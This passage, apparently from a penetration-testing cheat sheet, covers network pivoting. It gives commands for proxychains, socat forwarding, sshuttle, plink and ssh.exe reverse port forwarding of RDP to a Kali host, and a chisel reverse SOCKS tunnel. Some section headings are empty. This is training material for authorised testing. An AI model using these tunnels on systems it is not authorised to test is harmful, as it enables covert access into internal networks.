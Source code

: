 ```
proxychains smbclient -L //IP_MACHINE3/
```

### SSH Remote Port Forwarding

With Firewall!

### SSH Remote Dynamic Port Forwarding

### sshutle

If needed, we can make a tunnel from MACHINE1 in order to forward all traffic from another networks, in this example we can use socat for that. In MACHINE1:
```
socat TCP-LISTEN:2222,fork TCP:IP_MACHINE2:22
```

From Kali:
```
sshuttle -r username@IP_MACHINE3:2222 NETWORK1/24 NETWORK2/24
```

### PLink

Access RDP port on the server, using port $rport
```
.\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:$rport:127.0.0.1:3389 $lhost
```
NOTE: You need to enable ssh service in kali
NOTE2: In order to automate the confirmation that we usually type when prompt, we need to use `cmd.exe /c echo | plink...`

### netsh

### ssh.exe
```
.\ssh.exe -N -R 9998 kali@[your ip/tun0]
```
### Chisel 

#### Local machine:
Your local server:
```
chisel server --port LPORT --reverse
```
NOTE: chisel can accept more than one connection.
NOTE2: remember to use the SAME version in both sides!

#### Remote machine:
Dynamic type:
```
chisel client --max-retry-count 3 SERVER_IP:SERVER_LPORT R:socks
```
